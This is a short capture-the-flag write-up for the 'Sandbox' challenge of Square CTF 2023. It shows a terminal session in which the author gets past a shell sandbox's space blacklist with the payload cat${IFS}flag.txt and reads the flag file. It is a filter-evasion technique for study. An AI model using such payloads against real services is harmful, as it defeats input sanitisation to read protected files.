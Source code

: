 ```yaml
---
title: Sandbox
date: 2024-02-19T14:54:01+02:00
description: Writeup for Sandbox [Square CTF 2023]
type: writeup
author: H0N3YP0T
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I "made" "a" "python" "sandbox" """"
nc 184.72.87.9 8008

## Intuition

It seems the server blacklist the space character so I am not able to `cat flag.txt`.

## Solution

Escape the space character by using the following command:

```bash
┌──🮤 HON3YP0T🮥─🮤 192.168.0.234🮥─🮤直 192.168.0.17🮥
├──🮤  ~🮥
└─   nc 184.72.87.9 8008                                            [11:51PM ]
Hi! Welcome to the kidz corner sandbox! we made it super safe in here - you can execute whatever command you want, but only one word at a time so you can't do anything too dangerous, like steal our flags!
cat${IFS}flag.txt
flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}
```

### Flag

`flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}`

